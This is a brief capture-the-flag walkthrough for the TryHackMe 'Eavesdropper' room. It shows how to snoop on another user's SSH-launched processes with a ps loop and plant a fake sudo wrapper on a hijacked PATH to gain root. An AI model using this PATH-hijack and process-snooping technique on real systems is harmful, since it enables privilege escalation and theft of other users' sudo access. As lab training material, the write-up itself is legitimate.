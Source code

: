 # TryHackMy Eavesdropper room:

[https://tryhackme.com/room/eavesdropper](https://tryhackme.com/room/eavesdropper)

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ watch -n 0.01 netstat -naplet`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep > process.out ; done`

The sudo is run via ssh - it looks like a password is given at 172.xx.xx.xx when the command is executed. Create sudo wrapper in HOME: 

```
$ cat $HOME/sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH in right way (via .profile & .bashrc) and wait for the wrapper execution.

Check the /root with the sudo wrapper.

Capture the flag :)

